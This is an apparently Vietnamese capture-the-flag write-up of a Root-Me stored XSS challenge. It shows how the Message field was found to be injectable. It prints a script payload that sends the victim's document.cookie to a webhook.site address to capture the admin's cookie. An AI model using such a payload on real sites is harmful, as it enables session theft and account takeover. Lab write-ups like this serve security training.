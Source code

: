 Challenge: http://challenge01.root-me.org/web-client/ch18/

Đầu tiên truy cập web và thử với input an toàn: 
![alt text](image.png)
![alt text](image-1.png)

Lần lượt thử xem phần Title hay Message bị XSS:
![alt text](image-2.png)
![alt text](image-3.png)

![alt text](image-4.png)
![alt text](image-5.png)

Vậy ở đây ta rút ra được phần Message bị XSS.

Vì mục đích là lấy được cookie phía admin, nên cần phải gửi document.cookie từ phía máy chủ. 

Dùng webhook để nhận gói tin:
![alt text](image-7.png)

```
<script>fetch('https://webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939/' encodeURI(document.cookie), {method: 'GET'});</script>
```
Ta nhận được gói tin bên webhook:
![alt text](image-8.png)

